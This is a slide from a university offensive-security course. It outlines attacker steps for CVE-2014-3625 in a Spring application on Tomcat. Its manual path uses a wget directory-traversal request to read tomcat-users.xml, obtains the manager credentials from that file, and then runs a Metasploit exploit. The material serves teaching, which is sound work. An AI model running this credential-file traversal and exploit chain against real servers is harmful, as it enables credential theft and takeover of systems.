

# CVE-2014-3625 - ATTACKER
AUTOMATED
install Metasploit
./exploit.py CVE-2014-3625 <address>
MANUAL
install Metasploit
wget http://localhost:8080/spring-app/ resources/file:/var/lib/tomcat7/conf/tomcat-users.xml
obtain manager credentials
start the msfconsole
set attack parameters
HTTPUSERNAME / HTTPPASSWORD
RHOST / RPORT
exploit

Mattia Affabris - Alessandro Pezzé            Offensive Technologies 2016/2017
30/11/2016
5